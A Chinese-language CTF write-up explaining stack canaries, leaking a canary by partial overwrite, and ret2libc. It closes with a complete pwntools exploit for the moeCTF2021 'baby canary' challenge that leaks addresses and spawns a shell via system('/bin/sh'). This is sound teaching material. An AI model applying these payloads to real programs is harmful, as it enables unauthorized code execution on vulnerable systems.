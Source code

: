 # [PWN.0x01]canary|partial overwrite|ret2libc


### canary绕过

#### 什么是canary？

canary是一种防止栈溢出的保护机制，可以在终端中使用checksec命令检查ELF文件是否开启了canary保护。

是否开启canary的编译选项：

```bash
gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
```

在开启了canary的情况下，程序会在栈底额外存储一个值，并在函数return的时候检查这个值是否发生变动，从而判断程序是否发生了栈溢出，可以大大提高程序运行的安全性。

#### 如何绕过canary？

canary本身有个防意外输出的机制，由于printf %s函数以`\x00`为输出结束的标志，因此为了防止canary下面的合法数据段被合法写入的情况下，canary被printf函数意外输出，所以在小端序程序中，canary的最低位字节一定为`\x00`，因此可以进行**partial overwrite**，即部分覆盖。在写完合法的区域之后，溢出写入一个字节的数据把canary末尾的`\x00`覆盖掉，这样之后的printf函数就会顺带着泄露canary的值。



### ret2libc

#### 概述

在较为基础的pwn题中一般都有一个显性的`system`函数和`/bin/sh`字符串供选手调用。

如果这两者都不显性存在，就可以使用ret2libc方法。

这种方法主要针对**动态链接（dynamic linking）**的程序，程序运行时会调用 **libc.so** (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。

**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system("/bin/sh")** 来打开 shell。

工作重心转向获取libc.so加载进内存的可利用的函数的地址。

#### 什么是动态链接？

[深入理解动态链接 - 简书 (jianshu.com)](https://www.jianshu.com/p/cdb5cfcb5056)

[深入理解GOT表和PLT表 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/130271689)

[got表和plt表在程序执行过程中的作用 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1680494)

简而言之，装载到程序中的有两张表，对于一个外部库的被调用的函数，plt表指向got表中这个函数的位置，got表中则存储着这个函数在内存中的真实地址，函数的调用时通过plt表来完成的。

而对于一个链接库（如libc.so）而言，虽然其加载进内存的具体地址不确定，但是其内部的各个函数的相对位置是确定的，也就是说，可以构造payload泄露libc.so中的一个函数的真实地址，从而根据固定的偏移获取system等函数的地址。



#### 例题：moeCTF2021 - baby canary

checksec后发现开了NX和canary保护。

![lAEmSNwFPbVyfop](lAEmSNwFPbVyfop.png)

canary的绕过方法上面已有介绍，构造payload如下，借助第一个puts获取canary的值。

```python
payload1=b'a'*(0x4c-0x0c)+b'b'
p.send(payload1)
p.recvuntil(payload1)
canary=u32(p.recv(3).rjust(4,b'\x00'))
```

接下来要获取libc.so库中的某一函数的真实地址，不妨来获取puts函数的真实地址。构造payload使gots表中puts的值输出，获取到puts函数的真实地址，并使函数返回至main函数中，重新开始程序进行进一步攻击。

```python
payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
#注意上面的puts_got指的是地址，而真实的值是不固定的，需要被puts函数泄露
p.send(payload2)
p.recvuntil("he flag!\n")
puts_addr=u32(p.recv(4))
```

之后根据已知的libc.so中puts函数和system，/bin/sh的便宜来获取system和/bin/sh的真实位置，从而构造payload攻击。

完整exp：

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
local=1
e=ELF("./baby_canary")
puts_got=e.got["puts"] #指向got表的地址，got表具体的值要靠puts泄露
puts_plt=e.plt["puts"]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def main():
    if local:
        p=process("./baby_canary")
    else:
        p=remote("114.67.175.224",11482)
    p.recv()
    payload1=b'a'*(0x4c-0x0c)+b'b'
    p.send(payload1)
    p.recvuntil(payload1)
    canary=u32(p.recv(3).rjust(4,b'\x00'))
    p.recv()
    print("canary: ",hex(canary))
    payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
    p.send(payload2)
    p.recvuntil("he flag!\n")
    puts_addr=u32(p.recv(4))
    print(puts_addr)
    libc_base = puts_addr - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()

    p.recvuntil("u are?\n")
    p.send(payload1)
    payload3=b'a'*(0x4c-0xc)+p32(canary)+b'a'*12+p32(system_addr)+b'aaaa'+p32(binsh_addr)
    p.send(payload3)
    p.interactive()
main()
```



### 小插曲

实践中发现，在函数调用栈中除了该有的局部变量，有时会出现一些奇怪的变量，这是由编译器决定的，一般用于存储寄存器上下文。

![3](3.png)

